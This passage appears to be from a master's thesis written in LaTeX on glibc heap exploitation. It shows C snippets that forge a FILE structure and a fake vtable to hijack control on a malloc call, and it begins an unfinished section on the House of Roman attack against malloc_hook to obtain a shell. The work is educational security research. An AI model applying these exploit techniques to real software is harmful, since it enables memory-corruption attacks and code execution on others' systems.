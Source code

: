 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\mallocc{\lstinline{malloc}}
\newcommand*\freec{\lstinline{free}}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
  || __builtin_expect (victim->size > av->system_mem, 0))
  malloc_printerr (check_action, "malloc(): memory corruption",
    chunk2mem (victim), av);
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk; if the size is smaller than \lstinline{MINSIZE}, then the abort procedure called, and an attack happens.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events is complete, but we have to meet the condition of \lstinline{IO_LIST_ALL}

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}

Finally, we trigger the attack by one allocation.

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman = NOT FINISH YET}
This attack is a combination of \fb{} attack, \ub{} attack, and Use after the free attack, also, The goal is to open a shell. However, the chance of a successful attack is so slight because we need to brute force 12-bit of randomness. The attack consists of three steps.

The first step is to get a pointer inside \emph{\lstinline{malloc_hook}}, but what is the \lstinline{malloc_hook}? \lstinline{malloc_hook} lets us modify the behavior of \mallocc{} and \freec{} with a hook function. To achieve this, we use a \fb{} attack in a way the \lstinline{fd} pointer points to \lstinline{malloc_hook}.
\end{document}
